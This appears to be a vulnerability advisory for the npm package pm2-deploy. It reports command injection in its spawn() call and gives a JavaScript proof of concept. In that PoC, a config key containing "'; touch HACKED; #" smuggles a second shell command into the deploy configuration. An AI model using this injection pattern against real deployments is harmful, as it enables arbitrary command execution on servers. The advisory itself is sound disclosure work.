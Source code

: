 # Overview
`pm2-deploy` is a module that allows to do pm2 deploy. Documentation: http://pm2.keymetrics.io/docs/usage/deployment/

Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using malicious `config` in the `spawn()` function.

# Proof of Concept
```js
var deployForEnv = require('pm2-deploy').deployForEnv;

var deployConfig = {
  prod: {
    "'; touch HACKED; # user": 'node',
    host: '127.0.0.1',
    ref: 'origin/master',
    repo: 'git@github.com:Asjidkalam/test-repo.git',
    path: '/var/www/test-dev'
  }
};

deployForEnv(deployConfig, 'prod', [], function (err, args) {
  if (err) {
    console.error('Deploy failed:', err.message);
    return console.error(err.stack);
  }
  console.log('Success!');
});
```
